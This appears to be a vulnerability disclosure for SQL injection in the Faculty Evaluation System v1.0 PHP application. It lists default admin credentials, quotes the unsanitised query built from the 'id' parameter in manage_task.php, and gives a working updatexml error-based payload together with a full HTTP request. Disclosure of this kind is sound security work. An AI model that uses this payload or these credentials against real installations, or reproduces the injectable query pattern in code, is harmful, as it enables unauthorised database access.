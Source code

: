 # Faculty Evaluation System v1.0 by oretnom23 has SQL injection

Admin account password： admin@admin.com/admin123
 
BUG_Author: WuQi Qi and Zhihong Tian, Guangzhou University

vendors: https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /eval/admin/manage_task.php?id=

Vulnerability location: /eval/admin/manage_task.php?id=, id

Vulnerability sql: `$qry = $conn->query("SELECT * FROM task_list where id = ".$_GET['id'])->fetch_array();` 

dbname =evaluation_db

[+] Payload: /eval/admin/manage_task.php?id=1%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id

```sql
GET /eval/admin/manage_task.php?id=1%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=lrrse02i69soj9l3lnarhnd9ck
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/233832362-0d030e91-ce80-4c07-8594-ef055a10f67d.png)
